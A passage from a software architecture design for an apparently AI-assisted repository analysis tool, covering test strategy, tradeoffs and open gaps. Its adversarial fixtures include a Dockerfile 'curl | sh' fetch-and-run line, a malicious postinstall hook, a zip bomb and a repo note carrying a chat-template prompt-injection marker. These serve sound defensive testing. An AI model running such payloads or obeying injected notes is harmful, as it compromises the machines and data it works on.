| 15 | Conventions catalog `match/case` branch added without schema enum update | `scripts/check_conventions_catalog_parity.py` CI lint fails | CI lint (new in Phase 2) | PR red; lint message shows missing enum entry; developer adds it in the same PR. ADR-0008 this phase |
| 16 | `IndexHealthProbe` exceeds 200 ms advisory budget on a populated peer snapshot | `asyncio` wall-clock measurement; no hard kill | B2 self-check | `index_health.budget_exceeded: true`; observability metric fires; 25% mean-regression on B2 wall-clock fails the bench PR gate; gather continues normally |

## Testing strategy

The Phase 0/1 test pyramid shape continues. Phase 2 widens substantially: 17 new probes × 6 unit tests minimum + ≥ 40 new adversarial fixtures + 7 integration tests + 17 goldens + 4 bench tests.

### Unit tests (`tests/unit/`)

- **Per probe (`tests/unit/probes/`):** ≥ 6 tests per probe — happy path, missing input, malformed input, partial input, confidence-degrade cases, schema conformance.
- **Per tool wrapper (`tests/unit/tools/`):** ≥ 4 tests per wrapper — recorded fixture stdout happy path, non-zero exit, timeout, malformed JSON. Wrappers tested against `tests/fixtures/tool_outputs/`; CLI never invoked in unit tests.
- **Skills loader (`tests/unit/skills/`):** discovery, frontmatter parsing, schema validation, indexing, condition matching, `required_tools` cross-check vs `tools/digests.yaml`.
- **Conventions detector dispatch (`tests/unit/probes/test_convention_dispatch.py`):** one test per `detect.type` enum value, plus malformed-YAML and **closed-enum-lint** tests (asserting a `match/case` branch without a schema enum entry fails CI).
- **Coordinator peer-output binding (`tests/unit/coordinator/test_peer_output_binding.py`):** assert `IndexHealthProbe.run()` receives the frozen snapshot positional arg; assert probes without `consumes_peer_outputs` see the two-arg signature; assert `ProbeContext` public field set is unchanged.
- **OutputSanitizer Pass 4 + Pass 5 (`tests/unit/sanitizer/`):** Pass 4 fingerprints field-name matches; Pass 5 detects marker patterns; both passes are idempotent (`pass4(pass4(x)) == pass4(x)`).
- **Cache key invariants (`tests/unit/coordinator/test_cache_key_includes_tool_digests.py`):** Hypothesis property test — any tool digest change ⇒ cache-key change.

### Adversarial tests (`tests/adv/`) — CI-gating

≥ 60 adversarial fixtures total (Phase 1's ≥ 20 + Phase 2's ≥ 40). Each pins a structural invariant.

Phase 2 fixtures (abridged from `final-design.md §"Adversarial tests"`):

1. `test_truncated_scip_index.py` — truncated `.scip` file; SCIP grammar re-validation fails; probe `confidence: low`; no OOM.
2. `test_scip_compiler_plugin_attempt.py` — hostile `tsconfig.json` `extends:` chain; sandbox contains; no host file modified.
3. `test_malformed_semgrep_output.py` — invalid JSON stdout; `ToolOutputMalformed` raised.
4. `test_semgrep_redos.py` — custom rule with pathological regex; timeout fires; sandbox restarts; `confidence: low`.
5. `test_gitleaks_redaction_invariant.py` — planted secret in fixture; assert `AKIAFAKE0000000000` bytes appear **nowhere** in `.codegenie/`.
6. `test_hostile_dockerfile_curl.py` — `RUN curl http://1.1.1.1 | sh`; sandbox network=none; build fails; SBOM records `network_egress_attempted: true`.
7. `test_syft_zipbomb.py` — Dockerfile COPYs zip bomb; syft OOM-killed by cgroup; probe `confidence: low`.
8. `test_buildgraph_postinstall_blocked.py` — `package.json` with `scripts.postinstall: "touch /tmp/POWNED"`; `BuildGraphProbe` invoked with `--ignore-scripts`; `/tmp/POWNED` does not exist after run.
9. `test_repo_note_prompt_injection.py` — `.codegenie/notes/poison.md` body with `<|im_start|>`; `repo-context.yaml` records `prompt_injection_marker_count ≥ 1`; body not inlined; body file at `0600`.
10. `test_skill_yaml_injection.py` — hostile YAML in SKILL.md frontmatter; loader fails loud.
11. `test_external_doc_zip_slip.py` — hostile filesystem-doc path tries to escape; refused with structured warning.
12. `test_huge_external_doc.py` — 200 MB markdown; size cap fires; probe degrades.
13. `test_treesitter_grammar_version_mismatch.py` — wrong grammar version; wrapper raises typed exception.
14. `test_concurrent_cache_poisoning.py` — two gathers with conflicting outputs; BLAKE3 catches; probe re-runs.
15. `test_audit_chain_break_observability.py` — corrupt prior chain head; next gather emits `audit.chain_break_detected`; gather still completes 0.
16. `test_no_credentials_in_subprocess_env.py` — host has `OPENAI_API_KEY`, `ANTHROPIC_API_KEY`, `GITHUB_TOKEN`, `AWS_*`, `CHAINGUARD_TOKEN`; invoke any Phase-2 wrapper; assert in-sandbox `env` contains none of them.
17. `test_legacy_npm_no_ignore_scripts_fallback.py` — older npm without `--ignore-scripts` support; wrapper raises `ToolInvariantViolation`; probe falls back to static-only.
18–60. Additional fixtures covering: tsconfig deep `extends` cycle, hostile Convention catalog YAML, malformed CVE JSON, oversized SBOM, BLAKE3 collision attempt on cache key, etc. (Implementer expands per `final-design.md` corpus.)

### Integration tests (`tests/integration/`)

- `test_phase2_end_to_end_node.py` — full gather on `tests/fixtures/node_typescript_with_b_through_g/`; every Phase 2 slice populated except `runtime_trace` (deferred); envelope + all sub-schemas validate.
- `test_phase2_cache_hit_no_subprocess_relaunch.py` — gather twice on same commit; assert no subprocess invocations on second run; all probes return `CacheHit`.
- `test_phase2_real_oss.py` — clone `nestjs/nest` at pinned SHA; CI setup runs `npm ci --ignore-scripts` outside gather; gather; assert SCIP produced, semgrep + gitleaks + `BuildGraphProbe` ran, SBOM produced, `IndexHealthProbe` reports `high` across domains. **Roadmap exit criterion.**
- `test_index_health_staleness_seeded.py` — **Roadmap exit criterion.** Three seeded fixtures (`stale_scip_repo/`, `stale_sbom_repo/`, `stale_semgrep_rulepack_repo/`); each surfaced as `confidence: low` on its specific domain.
- `test_strict_flag_fails_on_low_confidence.py` — `--strict` against seeded fixture; exit code 3.
- `test_buildgraph_static_vs_resolved.py` — pnpm workspace fixture; `BuildGraphProbe` produces resolved graph (PM available) or static graph (PM absent); `resolution_status` matches.
- `test_phase2_external_docs_disabled_by_default.py` — gather with no `external_docs` config; filesystem-only mode; no URL fetcher launches; no network access by any probe.

### Golden-file tests (`tests/golden/`)

Per-probe `tests/golden/<probe>/<fixture>/expected.json`. CI diff fails on drift. `pytest --update-goldens` regenerates. **Every Phase 2 probe ships ≥ 1 golden.**

### Property tests (`tests/unit/`)

- `test_conventions_dispatch_is_total.py` — Hypothesis: every `detect.type` enum value dispatches without `KeyError`.
- `test_skill_index_query_idempotent.py` — Hypothesis: `for_task_and_language` is idempotent.
- `test_cache_key_includes_tool_digests.py` — Hypothesis: any tool digest change ⇒ cache-key change.
- `test_sanitizer_pass4_idempotent.py` — Hypothesis: Pass 4 on sanitized output is a no-op.

### Benchmarks (`tests/bench/`) — advisory

- `test_warm_path_phase2.py` — gather twice; assert second run all-cache-hit; advisory wall-clock targets.
- `test_index_health_budget.py` — B2 wall-clock ≤ 200 ms p99 across 1000 iterations on a populated peer-output snapshot. Advisory metric, dashboard-tracked, **25%-regression gate** on PRs touching `index_health.py` or the coordinator.
- `test_scip_full_reindex.py` — SCIP full re-index ≤ 30 s on 1k-file fixture.
- `test_phase2_cold_e2e.py` — cold e2e ≤ 150 s p95 on integration fixture.

### CI gates

The Phase 1 six-job CI workflow extends. The `test` job's invocation now runs the Phase 2 unit + adversarial + integration suites; `--cov-fail-under` policy from ADR-0005 (Phase 1) holds. The `fence` job continues to assert; extended to forbid `tantivy` ML deps if ever added. The `security` job's `pip-audit` and `osv-scanner` now include `tree-sitter-typescript`, `tree-sitter-javascript`, `dockerfile`, `markdown-it-py`, `msgpack`, and optionally `tantivy` (when codegenie[search] extra installed) in the closure. **New `conventions_catalog_parity` CI job** runs `scripts/check_conventions_catalog_parity.py`. **New `tool_digests_verify` CI job** verifies installed binary SHA-256 against `tools/digests.yaml`.

### Performance regression tests

Warm-path-phase2 and incremental-phase2 latency tests are advisory regression gates (25% warm-p95 regression, 30% incremental-p95 regression → PR fails). Cold p95 is measured but advisory.

### Adversarial tests explicitly NOT in Phase 2

- No tests of `RuntimeTraceProbe` runtime behavior (deferred to Phase 5).
- No tests of URL-fetching `ExternalDocsProbe` (deferred — filesystem-only in Phase 2).
- No tests requiring microVM sandbox (Phase 5).
- No tests of MCP server topology (Phase 8/14).
- No tests of local registry mirror (Phase 14).

## Integration with Phase 3 (next phase)

Phase 3 (`roadmap.md §"Phase 3"`) is the first end-to-end deterministic transform: given a Node.js repo with a known npm CVE, the system reads `RepoContext` + Skills, chooses a recipe, applies it, writes a diff plus local branch. **No LLM enters Phase 3.** Phase 2's outputs are the entire input surface.

### Phase 3 consumers of Phase 2 evidence

- **`SyftSBOMProbe` slice** — Phase 3 reads `sbom.packages` to identify the vulnerable package's resolved version. Stage 3 deterministic-recipe path can't run without this.
- **`GrypeCVEProbe` slice** — Phase 3 reads `cve.matches[].package_name`, `cve.matches[].fix_versions` to choose the patch target.
- **`BuildGraphProbe` slice** — Phase 3 reads `build_graph.resolved_edges` (or `declared_edges` if `resolution_status == "static_only"`) to detect peer-dep conflicts.
- **`NodeManifestProbe` slice** (Phase 1) + **`NodeBuildSystemProbe` slice** (Phase 1) — Phase 3 reads `manifests.native_modules` and `build_system.engines.node` to choose the recipe variant.
- **`SkillsIndexProbe` slice** — Phase 3 reads `skills.by_task_and_language[("vuln_remediation", "typescript")]` to find the relevant `vuln-remediation-nodejs-*` Skill manifest.
- **`IndexHealthProbe` slice** — Phase 3 reads `index_health.cve.confidence`; if `low`, Phase 3 skips that repo (`final-design.md` §"What later phases need from this").
- **`ConventionProbe` slice** — Phase 3 reads org-specific lint rules; the recipe respects them.
- **`ExceptionProbe` slice** — Phase 3 honors `expires`-future exception entries that suppress specific CVE rule-matches.

### Contract handoff explicitly

The contract between Phase 2 and Phase 3 is the envelope + 17 sub-schemas pinned at Phase 2 v1. Phase 3 is **forbidden** from editing any Phase 2 sub-schema; if Phase 3 needs a new field (e.g., `vuln_remediation.recipe_match_count` on the CVE slice), it's a new top-level slice (`vuln_remediation.*`) not an extension of `cve_scan.*`. This is the "extension by addition" invariant rendered as a forward contract.

**Cross-probe rule for Phase 3 to add (deferred to Phase 3):** `if vuln_remediation.patch_applied present then cve_scan.matches MUST include the CVE the patch targets`. This is enforced at Phase 3's envelope write; Phase 2 ships the `if/then` machinery to make it cheap.

### Phase 3 cannot read

- `RuntimeTraceProbe` slice (deferred to Phase 5). Phase 3 must not bind against `runtime_trace.shell_invocations` — that surface is `{status: "deferred_to_phase_5"}` in Phase 2. Phase 3's distroless-migration consumer is Phase 7, not Phase 3.
- `ExternalDocsProbe` URL-fetched content (deferred). Phase 3 reads filesystem-only doc bodies via the path indexed by `ExternalDocsIndexProbe`.

## Path to production end state

Phase 2 advances the system toward `production/design.md` in five concrete ways.

### Capabilities now possible (that were not before Phase 2)

- **Multi-language coverage.** Layer B's semantic index (SCIP), tree-sitter parsers, and the conventions catalog framework all generalize across languages — adding Python in Phase 7's analog requires only new probes + new catalog entries (the `detect.type` CI lint enforces additive evolution).
- **Security / CVE evidence.** SBOM + CVE evidence is the *load-bearing* input for Phase 3 (vuln remediation) and Phase 7 (distroless migration's CVE-driven scheduling). Phase 2 ships both deterministically.
- **Org-specific conventions as data.** `conventions/node.yaml`, `shell_replacements/node.yaml`, `exception` registry, `policy` YAML — all structured catalogs the Planner queries; no prompt inference required (commitment §2.6).
- **Skills loader contract.** `SkillsIndexProbe` + `SkillsLoader` is the contract surface Phase 4 (LLM fallback + RAG) consumes; Phase 8 (Hierarchical Planner) reads the `applies_to` indexes.
- **Honest staleness signal.** `IndexHealthProbe` with three seeded-staleness fixtures means the system can't lie silently about its own freshness — the worst failure mode in any context-gathering system.

### What's still missing for production

- **MicroVM sandbox** (Phase 5, ADR-0019). Phase 2's bwrap profile is kernel-shared; a kernel zero-day breaks the boundary. Phase 5/14 promote `run_in_sandbox` to microVM at the same chokepoint.
- **MCP topology** (Phase 8 single-server + Phase 14 multi-server split). Phase 2 emits `risk_flags` and `confidence_summary` slices in their canonical Phase 8 shape so Phase 8's projection is a dict-copy.
- **Hot Redis views** (Phase 8, ADR-0013). Phase 2 ships the slice shapes; Phase 8 ships the pre-rendering background task.
- **Local registry mirror** (Phase 14). Phase 2's `SyftSBOMProbe` pulls base images from the configured registry (potentially `docker.io`); Phase 14's worker adopts a mirror.
- **`RuntimeTraceProbe` implementation** (Phase 5). Phase 2 ships the class + sub-schema only.
- **Continuous gather** (Phase 14). Phase 2's per-file findings sub-caches make incremental gather cheap; Phase 14 wires triggers (cron / webhook / CVE feed).

### Deferred ADRs this phase sharpens or makes resolvable

- **ADR-0006** (Continuous deterministic gather, production). Phase 2's per-file findings sub-cache + tool-digest cache-key composition is the implementation that makes incremental gather correct at portfolio scale.
- **ADR-0019** (Sandbox stack, production). Phase 2 deliberately defers; the `run_in_sandbox` chokepoint API is the substrate Phase 5 swaps a microVM into.
- **ADR-0012** (microVM sandbox, production). Phase 5 inherits Phase 2's chokepoint discipline.
- **ADR-0011** (Recipe-first → RAG → LLM-fallback, production). Phase 2's `SkillsIndexProbe` is the recipe-side surface.

## Tradeoffs (consolidated)

Rolled up from `final-design.md §"Synthesis ledger"` plus those introduced by this elaboration.

| Decision | Gain | Cost | Source |
|---|---|---|---|
| Extend Phase 1's `run_in_sandbox` chokepoint with `--network=none` + tighter env-strip + per-tool scoped egress allowlist; **no** new `SandboxStrategy` interface | Preserves single-chokepoint discipline; Phase 5's microVM lands at the *same* chokepoint with no probe-code changes; ADR-0019 stays deferred | Kernel-shared sandbox weaker than microVM; macOS `--network=none` is best-effort via `sandbox-exec`; documented in Risk #2 | `final-design.md §"Conflict-resolution table" D2`, ADR-0003 this phase |
| Defer `RuntimeTraceProbe (C4)` only; ship class + sub-schema with `applies()=False` | Phase 3's CVE/SBOM dependency met; C4 contract surface stable for Phase 5; B2's `runtime_trace: not_applicable` separates "expected absence" from "missed at runtime" | C4 is dead code in Phase 2; Phase 5 owns the implementation against ADR-0019 resolution | `final-design.md §"Conflict-resolution table" D8/D10`, ADR-0002 this phase |
| Ship `C1/C2/C3/C5/C6/C7` against minimal subprocess sandbox profile | Roadmap exit criterion met for Layer C; `syft`/`grype` tooling honored | Builds requiring public-internet `RUN` fail inside sandbox — honest evidence, not a bug | `final-design.md §"Components" §4` |
| `BuildGraphProbe`: two-stage with `pnpm list -r --ignore-scripts` + `resolution_status` field | Resolved monorepo accuracy meets `localv2.md §5.2 B5`; postinstall RCE closed | `--ignore-scripts` makes peer-dep resolution incomplete on packages that depend on postinstall-generated bindings — `confidence: medium` on those | `final-design.md §"Conflict-resolution table" D7`, ADR-0007 this phase |
| Reject `DaemonPool` (long-lived scip-typescript/semgrep daemons) | Determinism preserved; cache keys remain coherent; ADR-0006 honored | Fork+exec cost (~200–300 ms per tool invocation) paid every gather; mitigated by per-probe caching + per-file findings sub-caches | `final-design.md §"Conflict-resolution table" D1` |
| Reject `tantivy` as default; ripgrep is default BM25 engine; `tantivy` opt-in via `codegenie[search]` | No dead-code-by-default; no C-extension drift on default install | tantivy users (opt-in) pay for Rust toolchain or wheel; default users get ripgrep latency (~50 ms per query, acceptable for POC) | `final-design.md §"Conflict-resolution table" D11`, ADR-0010 this phase |
| `IndexHealthProbe`: 200 ms advisory budget + `--strict` flag for CI hard-fail (no auto-degrade) | Honest confidence; never lies; failure isolation preserved; `--strict` is the CI hammer when needed | Budget is observable but not enforced; future probe author adding slow B2 logic sees dashboard alert but isn't hard-stopped — 25% regression bench gate is the safety net | `final-design.md §"Conflict-resolution table" D4/D5`, ADR-0012 this phase |
| Skills loader: roots passed explicitly via CLI; no `~/` expansion in loader | Cache key invariant preserved (no `os.environ["HOME"]` leak); test isolation easy | CLI layer must explicitly resolve `~/.codegenie/skills/`, env vars, and config — slightly more CLI code | `final-design.md §"Components" §5.1` |
| `consumes_peer_outputs: bool` class attribute + frozen-snapshot positional arg (one coordinator branch) | `ProbeContext` public field set unchanged; minimal Phase-0 surface; opt-in per probe; only `IndexHealthProbe` sees it | New class attribute on ABC; one branch in dispatch; ADR-gated | `final-design.md §"Conflict-resolution table" D6`, ADR-0001 this phase |
| `OutputSanitizer` Pass 4 (BLAKE3 secret fingerprinter) + Pass 5 (prompt-injection marker tagger) | Raw secret bytes never reach cache/audit/YAML; prompt-injection bodies preserved on disk but tagged for Phase 4 router | Two new passes mean per-probe output spends ~10 ms in sanitizer on typical sizes; schema-tag policy is belt-and-suspenders | `final-design.md §"Components" §9`, ADR-0006 this phase |
| Audit log: JSONL with rolling BLAKE3 chain | Tamper-evidence at modest cost; observability event on break | Chain break is observability only (not failure); Phase 14's transparency log replaces this | `final-design.md §"Components" §10`, ADR-0011 this phase |
| Per-file findings sub-caches (`semgrep`, `gitleaks`, `tree-sitter`) at `(file_blake3, rule_pack_version, grammar_version)` | Incremental gather is cheap (>95% sub-cache hit on unchanged files); ADR-0006 incremental property works | Cross-file taint mode bypasses; documented in `--paranoid` flag | `final-design.md §"Conflict-resolution table" D14` |
| Conventions catalog: closed `detect.type` enum + CI lint enforcing `match/case` ↔ schema parity | Phase 7's distroless extensions must update both files in same PR; the discipline is compiler-enforced not bookkeeping | New CI lint job; new file `scripts/check_conventions_catalog_parity.py` | `final-design.md §"Components" §13`, ADR-0008 this phase |
| `ExternalDocsProbe`: filesystem-only in Phase 2; URL/Confluence/Notion deferred to v0.2 | Avoids SSRF infrastructure investment that would mirror ADR-0019's deferral; closes a security surface | URL-doc sources unavailable until v0.2 ships | `final-design.md §"Conflict-resolution table" D17`, ADR-0009 this phase |
| `tools/digests.yaml` SHA-256 binary pin manifest cross-checked at install | Tool-version drift is release-gating; supply-chain hardened | New manifest file; new install-time CI check; binary updates require ADR amendment | `final-design.md` §"Goals", ADR-0004 this phase |
| `tree-sitter` Python bindings in-process (no subprocess) | ~200 ms fork+exec saved per file invocation; per-file cache contracts straightforward | C extension; wheel hash + grammar SHA cross-check in `tools/digests.yaml`; `pip-audit` gates the CVE class | `final-design.md §"Components" §3.3, 7.3` |
| `SCIPIndexProbe`: read-only mount `node_modules` if present; never invoke `npm install` | Real-OSS CI test possible (CI setup runs `npm ci --ignore-scripts` outside gather); postinstall RCE path closed | Repos without committed `node_modules` get `confidence: medium`; Planner factors in | `final-design.md §"Conflict-resolution table" D3` |
| 17 new probes + 7 tool wrappers + 1 loader + 6 catalog files + 17 sub-schemas + 4 in-place Phase 0/1 edits | Extension by addition preserved at scale; the file-count is the test that the architecture composes | Review burden — 12 ADRs this phase, ≥ 60 adversarial fixtures, ≥ 100 unit tests | `final-design.md §"Goals"` |

## Gap analysis & improvements

The synthesis is solid. Elaborating it into implementation surfaces five gaps under-specified in `final-design.md`. Each is named, explained, and proposed.

### Gap 1: Cross-phase contract evolution for `ProbeOutput` as Layer B–G slices diverge in shape

`final-design.md §"Components"` ships 17 new probes whose `slice` shapes range from small structural records (8 fields on `RepoConfigProbe`) to richly-typed deep documents (the SBOM slice's `packages: list[SBOMPackage]` carries arbitrary `licenses`, `purl`, `cpe` arrays; the SCIP slice references a binary external artifact). Phase 1's `WarningId` pattern was enough for Layer A's regular shapes; Layer C+G shapes have nested objects, optional fields with deep semantics (e.g., `cve.matches[].fix_versions`), and cross-slice references (`grype_cve.sbom_digest` must equal `syft_sbom.image_digest` for the run to be coherent).

Phase 1's deferred sub-schema versioning question (Phase 1 ADR-0010 / `phase-arch-design.md` "Open questions" #2) is no longer deferrable: Phase 3 will need to add fields to the CVE slice (e.g., `cve.recipe_match_count`) and the current "edit the sub-schema in the same PR" discipline is fine for additive evolution but offers no guarantee against breaking evolution. The risk: a Phase 3 contributor adds a *required* field to `cve_scan.matches[]` and every cached Phase 2 output suddenly fails validation on the next gather.

**Improvement.** Land **`schema_version: str`** on every Phase 2 sub-schema root (literal `"v1"` for all Phase 2 probes). Add a per-probe `sub_schema_version` field to the cache-key derivation (extending Phase 0's identity hash). Establish a `docs/phases/02-context-gather-layers-b-g/SCHEMA-EVOLUTION-POLICY.md` doc with two rules: (1) **additive evolution** is a minor bump (`v1 → v1.1`); (2) **breaking evolution** is a major bump (`v1 → v2`) and requires a Phase-level ADR amendment + an explicit migration handler in the coordinator. Phase 3+ ADRs reference this policy. Land in Phase 2; the gap is forced by the Layer C+G surface area.

### Gap 2: Versioning of skills frontmatter and conventions YAML

`final-design.md §"Components" §5.1` and §5.3 both declare Pydantic models for Skills frontmatter and conventions rules. Both files carry a `catalog_version: int` (conventions) or implicit version (skills) — but the **policy** for what triggers an invalidation is conventional, not enforced. A skill's `applies_to.conditions` field may add a new dict key (e.g., `min_node_version`) that older versions of `SkillsIndexProbe` would silently ignore; conversely, a conventions rule that adds a `detect.args.regex_flags` field will be silently dropped by older convention readers.

The skills loader's `schema_version: Literal["v1"]` on `Skill` (data model above) is good but insufficient: there's no policy for what a `v2` skill looks like, no migration path, no CI gate that asserts every SKILL.md in the repo declares a `schema_version` field.

**Improvement.** Add a CI lint (`scripts/check_skill_schema_versions.py`) that asserts every SKILL.md file under any pinned roots declares `schema_version: "v1"` in frontmatter. Add a matching CI lint for conventions YAML (`scripts/check_conventions_schema_versions.py`) that asserts `schema_version: "v1"` at the root. Both lints run in the `conventions_catalog_parity` CI job. Establish the same v1/v2 evolution policy as Gap 1 (additive minor; breaking major). Implementer adds the lints in Phase 2; Phase 3's distroless catalog (when it lands in Phase 7) inherits the discipline.

### Gap 3: How the deferred `RuntimeTraceProbe` class skeleton with `applies()=False` actually lands

`final-design.md §"Components" §4.4` says the C4 probe **class** ships with `applies()=False` and the sub-schema declares `runtime_trace_pending: true`. But the design doesn't specify: (a) **does the probe register?** If yes, `Coordinator.gather` walks it and the registry filter must short-circuit at `applies()=False`. If no, the probe class is dead code untestable. (b) **does the sub-schema appear in the envelope?** If yes, every gather emits an empty `runtime_trace: {status: "deferred_to_phase_5"}` slice — fine, but the envelope's `additionalProperties: false` policy needs to declare it. (c) **does `IndexHealthProbe.requires` list it?** The `requires` field is for execution ordering; declaring it makes the registry filter raise on missing peer.

**Improvement.** Explicit Phase-2 contract:

1. **Probe registers** in `src/codegenie/probes/__init__.py` like every other Phase 2 probe.
2. **`applies()` returns `False` unconditionally.** Registry filter is the Phase 0/1 seam; probes whose `applies()` returns `False` are excluded from dispatch.
3. **Sub-schema is in the envelope** at `probes/runtime_trace.schema.json`; the schema declares the slice as `{status: "deferred_to_phase_5", reason: str}` with `additionalProperties: false` at root. Every gather emits the slice (constant content) so consumers can bind against the contract.
4. **`IndexHealthProbe.requires`** lists `runtime_trace` as a peer; B2's `runtime_trace` domain reads the constant-content slice and emits `status: "not_applicable"`. The frozen `peer_outputs` snapshot includes the constant `ProbeOutput` for C4 (computed once at coordinator startup, cached forever in Phase 2).

This is one ADR (ADR-0002 this phase) plus three concrete code paths (probe registration, schema declaration, B2 domain handling). Land in Phase 2; otherwise Phase 5 inherits an under-specified deferral.

### Gap 4: BLAKE3 audit-log rollover and rotation

`final-design.md §"Components" §10` describes a rolling BLAKE3 chain head per gather, written to `runs/<utc>.json#chain_head`. After 1000 gathers (~3 months at portfolio scale of one gather per repo per day across 30 repos), `runs/` has 1000 JSON files; after a year, ~10k. The design doesn't say what happens to the older files. Two scenarios:

1. **Files stay.** Disk fills; `cache gc` doesn't manage `runs/` (it manages `cache/`). Operationally bad.
2. **Files deleted.** Chain integrity is broken — a chain head's `previous_hash` references a record that doesn't exist on disk; `verify_previous_chain_head()` can't find the prior record to re-compute.

Both Phase 14 (operationalized continuous gather) and Phase 2 (the POC's audit invariant) need a coherent answer.

**Improvement.** Introduce **rollover snapshots**: every 100 gathers, the chain is "sealed" — a checkpoint record carrying `(rollover_index, last_chain_head, sealed_at_utc)` is written to `runs/checkpoints/<rollover_index>.json` and the prior 99 records may be archived to `runs/archive/<rollover_index>/`. The `verify_previous_chain_head()` routine looks up the most recent checkpoint and accepts it as a chain anchor — old records remain verifiable when present but can be moved without breaking the live chain. A new ADR (ADR-0011 this phase, expanded) documents the policy. Land in Phase 2; defer the actual archive-to-cold-storage to Phase 14's transparency log.

### Gap 5: How `--strict` mode for `IndexHealthProbe` propagates through CI

`final-design.md §"Goals"` and §"Conflict-resolution table" D5 establish `--strict` as the CI hard-fail handle. The CLI exits 3 if any `index_health.<domain>.confidence == "low"`. But the design doesn't specify:

1. **Which CI jobs use `--strict`?** The integration test `test_strict_flag_fails_on_low_confidence.py` asserts the *flag works*. But the **real-OSS** test `test_phase2_real_oss.py` doesn't say whether it runs with `--strict` (and if it does, a false-positive `low` confidence on `nestjs/nest` would fail CI on a clean commit).
2. **What does the seeded-staleness test do with `--strict`?** Each seeded fixture should produce `confidence: low` on its specific domain — so `--strict` would *correctly* fail. The test asserts the failure, not the success.
3. **What about CI workflows downstream?** Phase 14's webhook-driven continuous gather may want `--strict` per-domain (fail only on `cve` low, not on `semgrep` low). Phase 2's all-or-nothing `--strict` doesn't support that.

**Improvement.** Phase 2 ships **two `--strict` modes**:

- `--strict` (current design): exits 3 on **any** B2 domain `low`. Used by the seeded-staleness fixtures' CI test.
- **`--strict-domains <list>`** (new): exits 3 only if a *specified* domain is `low`. E.g., `--strict-domains cve` fails only on CVE staleness. Phase 14's continuous worker uses this.

Document the policy in ADR-0012 (this phase). The real-OSS test runs **without** `--strict` (it asserts `high` confidence on the populated peer outputs, not that the gather exits 0). The seeded-staleness test runs **with** `--strict` (it asserts exit code 3). Implementer lands both flags in Phase 2.

## Open questions deferred to implementation

Surfaced so they don't get decided by default in a PR. None blocks Phase 2 exit.

1. **The exact `bwrap` invocation profile for `docker build`.** Docker opens unix sockets to the host daemon by default; `dockerd-rootless` or `buildx --driver=docker-container` may be needed. To be determined at integration time; if blocking, C2 falls back to `confidence: low` with a structured warning (failure isolation).
2. **`grype db update` cache lifetime.** Default 24 hours; if a portfolio-scale rescan is needed within that window, the CVE-feed-triggered selective-invalidation hook (Phase 14 prerequisite) lands as a stub in Phase 2 and a real implementation in Phase 14.
3. **Pinning policy for Phase 2 wrapper outputs across tool versions.** If `syft` v0.85 changes a JSON field shape, the wrapper changes; do all `syft_sbom` cache entries invalidate (current design: yes, via tool digest in cache key)? Or do we maintain a translation layer? **Current decision: invalidate; revisit in Phase 14 if churn is high.**
4. **Whether the Phase-7 distroless conventions catalog should be language-scoped (`conventions/node.yaml` with task-scoped entries) or task-scoped (`conventions/distroless_migration.yaml`).** Phase 2 chooses language-scoped; Phase 7 may revisit. The CI lint enforces parity either way.
5. **Whether Phase 8's hot-view pre-rendering happens inside Phase 2 or as a Phase-8 dedicated background task.** Phase 2 emits `risk_flags` and `confidence_summary` slices in canonical Phase-8 shape so Phase 8's projection is a dict-copy; whether Phase 8 *also* writes a `.codegenie/hot-views/` artifact is a Phase 8 decision.
6. **Per-probe sub-cache GC mechanism.** Phase 2 ships LRU-by-access-time with 5 GB cap; Phase 14's continuous worker will tune. Whether Phase 14 keeps the LRU policy or switches to size-by-priority is deferred.
7. **`IndexHealthProbe.run()`'s `git rev-list --count` invocation: in-process (`gitpython`) or subprocess sandbox.** `gitpython` is in Phase 1's dep set; the subprocess sandbox adds ~50 ms cold. **Default: `gitpython` (in-process).** Fall back to subprocess if `gitpython` proves unreliable at portfolio scale (Phase 14).
8. **`tools/digests.yaml` rotation policy.** When a CVE lands in a pinned binary (e.g., `syft` v0.93 fixes a parser bug), the digest must rotate. Phase 2 ships the manifest; the rotation procedure (ADR-amendment requirement; rebuild + republish; verify on every install) is documented but the **cadence** isn't pinned. Phase 14's continuous worker drives the cadence.
9. **Schema evolution policy version-bump granularity.** Gap 1's recommendation is `v1.x` for additive and `v2` for breaking. Whether `v1.0 → v1.1` requires a cache flush or just a sub-schema_version bump in the cache key is deferred to the implementer; the simpler default (cache flush on any minor bump) is recommended but not required.
10. **Whether `tantivy` ever becomes default.** ADR-0010 this phase makes it opt-in. If Phase 4's RAG layer or Phase 8's hot-views shows a measurable BM25 latency win on real workloads, Phase 14 may revisit. The C-extension-by-default concern stays.

---

**End of Phase 2 architecture design.**
